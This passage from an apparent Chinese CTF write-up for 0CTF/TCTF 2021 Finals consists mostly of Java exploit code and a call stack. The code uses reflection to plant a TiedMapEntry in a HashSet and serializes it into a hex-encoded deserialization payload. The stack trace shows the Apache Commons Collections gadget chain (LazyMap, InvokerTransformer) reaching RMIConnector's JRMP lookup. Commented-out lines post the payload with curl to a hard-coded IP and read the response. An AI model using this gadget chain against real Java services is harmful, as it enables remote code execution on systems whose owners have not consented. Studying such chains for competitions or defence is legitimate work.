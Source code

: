 ```java
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashset_map);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedMapEntry);


        oos.writeUTF("0CTF/TCTF");
        oos.writeInt(2021);
        oos.writeObject(hashset);
        oos.close();

        byte[] exp = baos.toByteArray();
        String data = com.tctffinal.demo.Utils.bytesTohexString(exp);
        System.out.println(data);
        //String cc = "curl -v http://121.4.155.228/buggy -H c014:c014 -d data="+data;
        //System.out.println(cc);
        //java.io.InputStream in = Runtime.getRuntime().exec(cc).getInputStream();
        //java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
        //String output = s.hasNext() ? s.next() : "";
        //System.out.println(output);
    }
}
```

调用栈

```java
findRMIServerJRMP:2007, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:126, InvokerTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
getValue:74, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:121, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
readObject:342, HashSet (java.util)
```
